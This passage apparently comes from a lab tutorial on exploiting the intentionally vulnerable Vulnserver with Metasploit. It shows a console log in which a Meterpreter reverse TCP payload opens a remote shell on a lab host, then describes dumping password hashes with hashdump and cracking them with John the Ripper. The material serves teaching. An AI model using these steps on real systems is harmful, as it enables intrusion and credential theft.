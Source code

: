 ```
PAYLOAD => windows/meterpreter/reverse_tcp
msf6 exploit(windows/vulnserver/knock) > set RPORT 9999
RPORT => 9999
msf6 exploit(windows/vulnserver/knock) > exploit -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 192.168.1.4:9387 
[*] 192.168.1.19:9999 - Connecting to target...
[*] 192.168.1.19:9999 - Trying target vulnserver-KNOCK...
[*] Sending stage (175174 bytes) to 192.168.1.19
[*] Meterpreter session 1 opened (192.168.1.4:9387 -> 192.168.1.19:49775 ) at 2022-06-12 18:53:35 -0400
```

## Post exploitation and Meterpreter

Once into a computer, the attacker may collect sensitive information e.g., usernames and passwords.
How? One way is to use Meterpreter, a Metasploit attack payload, which is the malcious code the attacker sends to the victim server and gets running.
Meterpreter provides the attacker an interactive shell (emulated console) exploring the target machine and executing code.
For example, within Meterpreter, *hashdump* can list all the usernames and the passwords.
Then use *John the Ripper* to crack password hashes.

<img src="../Imgs/Interact.png" width=720>
